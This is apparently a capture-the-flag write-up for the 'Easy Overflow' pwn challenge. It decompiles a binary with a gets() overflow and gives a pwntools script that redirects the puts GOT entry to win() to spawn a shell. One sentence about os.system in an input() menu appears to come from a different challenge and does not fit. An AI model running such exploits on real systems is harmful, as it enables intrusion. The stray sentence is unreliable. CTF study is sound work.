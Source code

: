 ## Easy Overflow
![overflow](images/easyoverflow.png)

### Description
>I did a check on my return address. Now you shouldn't be able to control my RIP.\
>nc fun.chall.seetf.sg 50003\
>MD5: a9a706d9b8d73ec0ee5c39bf0505d85e


### Gain Shell
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\
![overflow](images/easyoverflow2.png)
```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.\
Full Script:

The bug is on **input()** at choice 4, because the program already **import os**, then just simply input **os.system("/bin/sh")** to get shell

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````